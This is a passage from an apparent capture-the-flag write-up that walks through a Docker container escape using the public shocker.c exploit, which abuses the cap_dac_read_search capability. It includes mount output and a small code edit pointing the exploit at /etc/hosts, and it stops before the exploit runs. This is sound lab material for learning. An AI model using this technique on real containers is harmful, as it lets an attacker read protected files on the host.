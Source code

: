 `cap_dac_read_search` is highlighted in red.

### shocker

#### Background

[This blog post](https://medium.com/@fun_cuddles/docker-breakout-exploit-
analysis-a274fff0e6b3) from 2014 shows how to abuse this capability using a
program posted to OpenWall named `shocker.c`. This program abuses the
`cap_dac_read_search` capability to read files from the host system.

#### POC

I’ll download a copy of the original script
[here](http://stealth.openwall.net/xSports/shocker.c). I’ll need to make one
change. The binary needs to open a file that’s on the host and mounted into
the container. `mount` will show the mounts:

    
    
    root@c150397ccd63:~# mount
    overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/SJ7L7M7IXKP2LYEKIS4QTXWMB2:/var/lib/docker/overlay2/l/V56NO5353KGHEUPU2G64UYICZS:/var/lib/docker/overlay2/l/57PYNL7JWAUZ2ZEF5CM7JKTH2Y:/
    var/lib/docker/overlay2/l/K4DCIUMHCNYT3RFVQSR7KCCWLJ:/var/lib/docker/overlay2/l/LLNI6XKILGAYVK3VSFPKZQC4NI,upperdir=/var/lib/docker/overlay2/5de14f4c9bdeaf0f8a19d03adcc2d28ccc97655bb5bc5f888490c184d2ad70dc/diff,
    workdir=/var/lib/docker/overlay2/5de14f4c9bdeaf0f8a19d03adcc2d28ccc97655bb5bc5f888490c184d2ad70dc/work,xino=off)
    proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
    tmpfs on /dev type tmpfs (rw,nosuid,size=65536k,mode=755)
    devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
    sysfs on /sys type sysfs (ro,nosuid,nodev,noexec,relatime)
    tmpfs on /sys/fs/cgroup type tmpfs (rw,nosuid,nodev,noexec,relatime,mode=755)
    cgroup on /sys/fs/cgroup/systemd type cgroup (ro,nosuid,nodev,noexec,relatime,xattr,name=systemd)
    cgroup on /sys/fs/cgroup/pids type cgroup (ro,nosuid,nodev,noexec,relatime,pids)
    ...[snip]...
    shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
    /dev/mapper/ubuntu--vg-ubuntu--lv on /app/uploads type ext4 (rw,relatime)
    /dev/mapper/ubuntu--vg-ubuntu--lv on /etc/resolv.conf type ext4 (rw,relatime)
    /dev/mapper/ubuntu--vg-ubuntu--lv on /etc/hostname type ext4 (rw,relatime)
    /dev/mapper/ubuntu--vg-ubuntu--lv on /etc/hosts type ext4 (rw,relatime)
    proc on /proc/bus type proc (ro,nosuid,nodev,noexec,relatime)
    ...[snip]...
    

I’ll use `/etc/hosts`, updating line 166:

    
    
            // get a FS reference from something mounted in from outside
            if ((fd1 = open("/etc/hosts", O_RDONLY)) < 0)
                    die("[-] open");
    

Now I’ll compile that with `gcc` and upload it to Talkative. If I didn’t
update the file to one that exists (the default it `/.dockerinit` which isn’t
in this container), it’ll error out:
